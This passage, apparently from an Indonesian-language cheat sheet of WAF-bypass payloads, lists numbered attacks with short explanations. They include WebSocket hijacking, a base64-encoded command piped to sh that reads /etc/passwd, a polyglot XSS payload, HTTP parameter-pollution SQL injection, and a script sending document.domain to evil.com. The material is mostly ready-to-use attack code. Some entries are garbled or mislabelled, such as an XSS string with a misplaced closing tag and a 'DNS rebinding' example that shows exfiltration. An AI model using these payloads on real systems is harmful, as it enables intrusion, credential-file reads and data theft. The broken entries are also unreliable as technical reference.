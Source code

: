 ✅ **HTTP Smuggling** = Mengecoh server dengan header bertentangan (`Content-Length` vs `Transfer-Encoding`).  
✅ **Bypass WAF** dengan menyisipkan permintaan tersembunyi.  

---

### **🛡️ 49. WebSockets Hijacking Attack**  
```js
var socket = new WebSocket("wss://victim.com");
socket.onopen = function() { socket.send("evil_payload"); };
```
**📌 Teknik:**  
✅ **WebSockets Hijacking** = Mengeksploitasi komunikasi real-time untuk serangan injeksi.  
✅ **Bypass WAF** karena tidak semua sistem memantau lalu lintas WebSockets.  

---

### **🛡️ 50. Blind Base64 Command Injection**  
```bash
echo "bHMgL2V0Yy9wYXNzd2Q=" | base64 -d | sh
```
**📌 Teknik:**  
✅ **Base64 Injection** = Menyembunyikan perintah berbahaya dalam encoding Base64.  
✅ **Bypass WAF** karena tidak terlihat seperti perintah eksplisit.  

---
```

```md
---

### **🛡️ 51. Advanced Polyglot XSS Payload**  
```html
"><script>eval(atob('YWxlcnQoMSk=</script>'))
```
**📌 Teknik:**  
✅ **Polyglot XSS** = Kombinasi beberapa teknik bypass dalam satu payload.  
✅ **Bypass WAF** dengan memanfaatkan `atob()` untuk menghindari deteksi.  

---

### **🛡️ 52. Parameter Pollution for SQLi Bypass**  
```http
GET /search?query=admin&query=' OR '1'='1' --
```
**📌 Teknik:**  
✅ **HTTP Parameter Pollution** = Menggunakan parameter duplikat untuk mengelabui filter.  
✅ **Bypass WAF** karena sebagian besar hanya memeriksa parameter pertama.  

---

### **🛡️ 53. DNS Rebinding for Remote Access**  
```js
var img = new Image();
img.src = "http://evil.com?dns="+document.domain;
```
**📌 Teknik:**  
✅ **DNS Rebinding** = Mengeksploitasi resolusi DNS untuk melewati SOP (Same-Origin Policy).  
✅ **Bypass WAF** dengan menyalahgunakan domain yang sah.  

---
